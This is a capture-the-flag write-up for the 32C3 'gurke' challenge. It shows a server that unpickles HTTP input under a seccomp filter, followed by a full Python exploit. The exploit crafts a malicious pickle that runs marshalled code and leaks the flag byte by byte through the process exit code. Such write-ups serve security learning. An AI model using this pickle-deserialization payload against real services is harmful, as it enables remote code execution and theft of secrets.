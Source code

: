 ```yaml
---
layout: post
title: 32C3 CTF - gurke
category: writeup
---
```


> Non-standard gurke: https://32c3ctf.ccc.ac/uploads/gurke Talk to it via HTTP on http://136.243.194.43/.

[Gurke](https://de.wikipedia.org/wiki/Gurke) is German for 'cucumber'. Server runs this code:

```py
#!/usr/bin/env python
import sys
import os

import socket
import pickle
import base64
import marshal
import types
import inspect
import encodings.string_escape

class Flag(object):
    def __init__(self):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("172.17.0.1", 1234))
        self.flag = s.recv(1024).strip()
        s.close()
flag = Flag()

from seccomp import *

f = SyscallFilter(KILL)
f.add_rule_exactly(ALLOW, "read")
f.add_rule_exactly(ALLOW, "write", Arg(0, EQ, sys.stdout.fileno()))
f.add_rule_exactly(ALLOW, "write", Arg(0, EQ, sys.stderr.fileno()))
f.add_rule_exactly(ALLOW, "close")
f.add_rule_exactly(ALLOW, "exit_group")

f.add_rule_exactly(ALLOW, "open", Arg(1, EQ, 0))
f.add_rule_exactly(ALLOW, "stat")
f.add_rule_exactly(ALLOW, "lstat")
f.add_rule_exactly(ALLOW, "lseek")
f.add_rule_exactly(ALLOW, "fstat")
f.add_rule_exactly(ALLOW, "getcwd")
f.add_rule_exactly(ALLOW, "readlink")
f.add_rule_exactly(ALLOW, "mmap", Arg(3, MASKED_EQ, 2, 2))
f.add_rule_exactly(ALLOW, "munmap")
f.load()

data = os.read(0, 4096)
try:
    res = pickle.loads(data)
    print 'res: %r\n' % res
except Exception as e:
    print >>sys.stderr, "exception", repr(e)

os._exit(0)
```

Everyone knows that unpickling user provided data is dangerous. I've used arbitrary code execution pickle from <https://www.cs.uic.edu/~s/musings/pickle.html>.

We cannot just "print flag.flag", because the context where our code is executed is inside pickle module of remote server. So we needed some workaround by reading:

```
vars(sys.modules['__main__'])['flag'].flag
```

Even if we had access to it, we could not get the data directly because writing to stdout is forbidden by seccomp. We extracted the flag byte by byte through the exit code.

```py
import requests
import os
import sys
import marshal

def getbyte(pos):
    exec("""
def f():
    import os
    m = globals()['sys'].modules
    x = m['__main__']
    x = vars(x)['flag'].flag
    x = ord(repr(x)[%d])
    os._exit(x)
""" % pos)
    m = marshal.dumps(f.func_code).encode('base64')

    p = """ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'%s'
tRtRc__builtin__
globals
(tRS''
tR(tR.""" % m.replace('\n','')

    r = requests.post("http://136.243.194.43/", data=str(p))
    if "exception" in r.content:
        print r.content
        return None
    else:
        return int(r.content[7:])

s = ""
for i in range(100):
    c = getbyte(i)
    if not c:
        break
    s += chr(c)
    print c, s
print s
```

Flag is `32c3_rooDahPaeR3JaibahYeigoong`

